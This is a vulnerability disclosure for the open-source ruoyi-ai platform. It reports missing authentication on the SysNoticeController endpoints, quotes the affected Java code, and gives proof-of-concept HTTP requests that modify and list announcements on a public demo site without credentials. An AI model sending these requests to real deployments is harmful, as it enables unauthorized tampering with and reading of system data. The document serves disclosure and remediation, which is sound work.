 # Vulnerability Description

The SysNoticeController component of the open source full-stack AI development platform project "https://github.com/ageerle/ruoyi-ai" has an unauthorized access vulnerability. Attackers can modify and query the notification information sent to users by this management system without any access credentials.
- Vulnerability Discloser: [Tr0e](https://github.com/Tr0e)
  
- Vendors:  [ageerle](https://github.com/ageerle/ruoyi-ai)
  
- Source code address： [GitHub-ageerle/ruoyi-ai](https://github.com/ageerle/ruoyi-ai)
  
- Related reports online link: https://github.com/ageerle/ruoyi-ai/issues/44
  

Since the author did not release the Release package, I cannot distinguish the version number. I performed security testing based on the latest code of 20250329. Note: **This vulnerability was discovered automatically by my AI code audit tool**.

# Vulnerability Analysis

The vulnerability code entry point is located at：

https://github.com/ageerle/ruoyi-ai/blob/main/ruoyi-modules/ruoyi-system/src/main/java/org/ruoyi/system/controller/system/SysNoticeController.java

The complete relevant code information of the vulnerability exploit chain is as follows:

```java
//ruoyi-modules/ruoyi-system/src/main/java/org/ruoyi/system/controller/system/SysNoticeController.java
    /**
     * 获取公告列表
     */
    @GetMapping("/list")
    public TableDataInfo<SysNoticeVo> list(SysNoticeBo notice, PageQuery pageQuery) {
        //公告类型（1通知 2公告）
        notice.setNoticeType("2");
        return noticeService.selectPageNoticeList(notice, pageQuery);
    }

    /**
     * 获取通知信息
     */
    @GetMapping("/getNotice")
    public R<SysNotice> getNotice(SysNoticeBo notice) {
        return R.ok(noticeService.getNotice(notice));
    }

    /**
     * 修改通知公告
     */
    @Log(title = "通知公告", businessType = BusinessType.UPDATE)
    @PutMapping
    public R<Void> edit(@Validated @RequestBody SysNoticeBo notice) {
        return toAjax(noticeService.updateNotice(notice));
    }
```

Although this system has authenticated sensitive API interfaces to prevent illegal access, the above-mentioned API interfaces used to modify and query system announcement information can still be accessed by illegal persons.

Attackers can access the above API interfaces effortlessly, damaging the confidentiality, integrity and availability of the system.

# Vulnerability Verification

Please first build the project local environment according to the steps provided by the project source code author in the Readme file. Or directly visit the public demonstration site provided by the author: https://admin.pandarobot.chat/ .

Take the API interface for modifying system announcements as an example. The vulnerability proof of concept (POC) is as follows:

```js
PUT /prod-api/system/notice HTTP/2
Host: admin.pandarobot.chat
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: application/json, text/plain, */*
Accept-Language: zh_CN
Accept-Encoding: gzip, deflate, br
Content-Type: application/json;charset=utf-8
Authorization: 
Clientid: 
Content-Length: 121
Origin: https://admin.pandarobot.chat
Referer: https://admin.pandarobot.chat/system/notice
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

{"status":"0","noticeType":"2","noticeId":"1904428576849305602","noticeTitle":"Hello","noticeContent":"My name is Tr0e."}
```

You can see that the announcement information has been successfully modified without any authentication credentials.

![Image](https://github.com/user-attachments/assets/552ea7c8-dbee-4270-89db-9c5400f052c4)

We can also verify whether the above modification is successful by querying the system announcement information list. The query interface also has an unauthorized access vulnerability.
```js
GET /prod-api/system/notice/list HTTP/2
Host: admin.pandarobot.chat
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: application/json, text/plain, */*
Accept-Language: zh_CN
Accept-Encoding: gzip, deflate, br
Authorization: 
Clientid: 
Referer: https://admin.pandarobot.chat/system/role
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

```

![Image](https://github.com/user-attachments/assets/21367f7e-c26e-48b1-a236-91419d1a2b49)

![Image](https://github.com/user-attachments/assets/2719a31b-89fd-4cfa-b4b0-7d8e5fe1f7fc)

# Security Suggestions

Add permission control to relevant API interfaces.
